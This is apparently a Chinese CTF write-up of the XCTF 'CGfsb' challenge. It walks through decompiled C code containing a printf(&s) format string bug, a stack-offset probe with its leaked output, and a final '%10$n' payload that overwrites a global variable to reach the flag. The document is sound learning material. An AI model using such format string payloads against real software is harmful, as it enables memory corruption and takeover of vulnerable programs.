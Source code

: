 # CGfsb

题目来源：https://adworld.xctf.org.cn/task/

这道题是我第一次接触这个漏洞，由题目的提示和代码中的漏洞特点很容易判断，这个漏洞是格式化字符串漏洞，但是由于以前没有接触过类似的漏洞，所以先学习了一下，先看一下代码：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int buf; // [esp+1Eh] [ebp-7Eh]
  int v5; // [esp+22h] [ebp-7Ah]
  __int16 v6; // [esp+26h] [ebp-76h]
  char s; // [esp+28h] [ebp-74h]
  unsigned int v8; // [esp+8Ch] [ebp-10h]

  v8 = __readgsdword(0x14u);
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  buf = 0;
  v5 = 0;
  v6 = 0;
  memset(&s, 0, 0x64u);
  puts("please tell me your name:");
  read(0, &buf, 0xAu);
  puts("leave your message please:");
  fgets(&s, 100, stdin);
  printf("hello %s", &buf);
  puts("your message is:");
  printf(&s);
  if ( pwnme == 8 )
  {
    puts("you pwned me, here is your flag:\n");
    system("cat flag");
  }
  else
  {
    puts("Thank you!");
  }
  return 0;
}
```

先看一下代码的主流程。首先给字符串 s 赋予初值，随后向 buf 中输入姓名，然后向 s 中输入字符串后，如果 pwnme 变量值为 8，则成功获得 flag。由于我之前没接触过字符串格式化漏洞，所以看到在这个流程中并没有修改 pwnme 非常意外，此外也没有其他的函数可以帮忙了。

看一眼这道题的安全防护：

```
Arch:     i386-32-little                                                  
RELRO:    Partial RELRO                                                   
Stack:    Canary found                                                      
NX:       NX enabled                                                         
PIE:      No PIE (0x8048000)
```

这道题目并没有开启 PIE 地址随机化。而 pwnme 这个变量是一个全局变量，地址是固定已知的。那么问题就是通过某个手段修改该地址的值。

这个代码中漏洞点很明显，就是 `printf(&s)`。这种写法不能说错，但是一般不会这么用。这就是字符串格式化漏洞的经典案例。由于我可以往 s 变量中输入任意的数据，并且数据就是保存在了栈中的 s 变量中，所以可以先打印栈中的数据，来查看运行这个 printf 时的栈帧数据分布：

```
AAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
```

一般就是按照上面的格式，因为 printf 先扫描第一个格式字符串，来判断输出格式，所以这个输出的就是栈中的数据，观察它的内容：

> AAAAff9d4f3e,f774b5a0,00f0b5ff,ff9d4f6e,00000001,000000c2,6161a8fb,0a616161,00000000,41414141,78383025,3830252c

因为开头的四个字符 AAAA 也在栈中，目的就是要直到它到底在栈的哪个位置。可以发现在 AAAA 后的第 10 个位置出现了 0x41 的字样，说明 AAAA 开始的字符串就存放在那里。

**这是格式化漏洞攻击的第一步，找到格式化字符串在当前栈中的位置。**随后第二步是借助 printf 中一个特殊的格式字符串类型 %n 来写入数据。

%n 记录了在它前面的字符长度，并且将它的值保存在某个变量中，举网上的例子：

```
int val;
printf("jksd%n", &val) // val = 4
```

那么只需要指定某个地址作为目标，而这里就是 pwnme 的地址，根据刚才发现的规律构造字符串：

```
p32(addr(pwnme)).%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
```

然后要在第 10 个地址处插入数据，并且保证在 %n 的格式字符串前只有 8 个字符，也就是只用 8 个字节，这里有个小技巧：在 linux 中，如果想专门输入第 m 个参数对应的值，可以简写为 `%m$x`，意思是想看第 m 个参数以 %x 的格式输出。同理也能用在 %n 上：

```
p32(addr(pwnme)) + 'aaaa' + '%10$n'
```

